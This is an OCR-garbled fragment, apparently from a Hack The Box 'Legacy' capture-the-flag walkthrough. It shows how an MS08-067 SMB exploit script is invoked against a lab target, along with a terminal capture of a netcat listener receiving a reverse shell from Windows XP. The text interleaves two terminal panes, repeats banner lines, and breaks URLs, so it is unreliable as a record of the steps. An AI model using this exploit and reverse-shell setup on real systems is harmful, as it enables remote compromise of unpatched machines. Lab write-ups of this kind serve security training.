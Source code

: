 ```python3 ms08-067.py 10.129.145.24 6 445 ```

-->``` ms08-067.py ```   Is our python payload 
-->``` 10.129.145.24 ``` Ware target ip
-->``` 6 ```             Os of target user which we have found on metasploit exploit 
-->``` 445 ```           Target port

``` bash
$   Here's how to upgrade if necessary:                                                     │┌─[atom@atom-vmwarevirtualplatform]─[~]
$                                                                                           │└──_ $nc -lvnp 443
$   git clone --branch impacket_0_9_17 --single-branch https://github.com/CoreSecurity/impac│Can't grab 0.0.0.0:443 with bind : Permission denied
ket/                                                                                        │┌─[_]─[atom@atom-vmwarevirtualplatform]─[~]
$   cd impacket                                                                             │└──_ $sudo nc -lvnp 443
$   pip install .                                                                           │[sudo] password for atom: 
                                                                                            │listening on [any] 443 ...
                                                                                            │connect to [10.10.14.102] from (UNKNOWN) [10.129.145.24] 1034
#######################################################################                     │Microsoft Windows XP [Version 5.1.2600]
                                                                                            │(C) Copyright 1985-2001 Microsoft Corp.
Windows XP SP3 English (NX)                                                                 │
                                                                                            │C:\WINDOWS\system3>
[-]Initiating connection                                                                    │
[-]connected to ncacn_np:10.129.145.24[\pipe\browser]                                       │
Exploit finish                                                                              │
                                                                                            │
┌─[atom@atom-vmwarevirtualplatform]─[~/htb/machines/legacy]                                 │
└──_ $python3 ms08-067.py 10.129.145.24 6 445                                               │
#######################################################################                     │
#   MS08-067 Exploit                                                                        │
#   This is a modified verion of Debasis Mohanty's code (https://www.exploit-db.com/exploits│
/7132/).                                                                                    │
#   The return addresses and the ROP parts are ported from metasploit module exploit/windows│
/smb/ms08_067_netapi                                                                        │
#                                                                                           │
#   Mod in 2018 by Andy Acer                                                                │
#   - Added support for selecting a target port at the command line.                        │
#   - Changed library calls to allow for establishing a NetBIOS session for SMB transport   │
#   - Changed shellcode handling to allow for variable length shellcode.                    │
#######################################################################                     │
                                                                                            │
                                                                                            │
$   This version requires the Python Impacket library version to 0_9_17 or newer.           │
$                                                                                           │
$   Here's how to upgrade if necessary:                                                     │
$                                                                                           │
$   git clone --branch impacket_0_9_17 --single-branch https://github.com/CoreSecurity/impac│
ket/                                                                                        │
$   cd impacket                                                                             │
$   pip install .                                                                           │
                                                                                            │
                                                                                            │
#######################################################################                     │
                                                                                            │
Windows XP SP3 English (NX)                                                                 │
```
